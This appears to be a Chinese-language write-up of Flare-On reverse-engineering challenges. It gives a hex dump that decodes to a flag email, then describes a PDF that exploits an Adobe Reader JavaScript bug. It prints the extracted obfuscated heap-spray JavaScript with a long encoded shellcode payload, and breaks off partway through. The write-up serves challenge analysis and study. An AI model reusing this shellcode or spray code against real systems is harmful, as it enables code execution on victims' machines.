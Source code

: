 ```
0012FE31  01 00 00 83 F9 00 7E 0E 81 36 62 4F 6C 47 83 C6  ..凒.~?bOlG 兤
0012FE41  04 83 E9 04 EB ED 8D 80 00 00 00 00 8D 80 00 00  冮腠崁....崁..
0012FE51  00 00 90 90 90 90 68 72 3F 21 3F 68 20 6F 76 65  ..悙悙 hr?!?h ove
0012FE61  68 6D 6F 73 74 68 74 20 61 6C 68 69 73 20 69 68  hmostht alhis ih
0012FE71  6F 6D 67 20 89 E3 E8 00 00 00 00 8B 34 24 83 C6  omg 夈?...?$兤
0012FE81  2D 89 F1 81 C1 D6 00 00 00 89 D8 83 C0 18 39 D8  -夞伭?..壺兝 9
0012FE91  75 05 89 E3 83 C3 04 39 CE 74 08 8A 13 30 16 43  u 夈兠 9 蝨?0C
0012FEA1  46 EB EB E9 1D 00 00 00 73 75 63 68 2E 35 68 33  F 腚?...such.5h3
0012FEB1  31 31 30 31 30 31 30 31 40 66 6C 61 72 65 2D 6F  11010101@flare-o
0012FEC1  6E 2E 63 6F 6D 68 6E 74 00 00 68 20 73 70 65 68  n.comhnt..h speh

```

邮箱地址:

```
such.5h311010101@flare-on.com 
```

* * *

## 第四题

APT 攻击, 通过利用 Adobe PDF Reader 的 JS 函数漏洞构造堆喷射执行 shellcode...

下面这段 JS 代码就是从这个 PDF 中提取出来的:

```
var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
```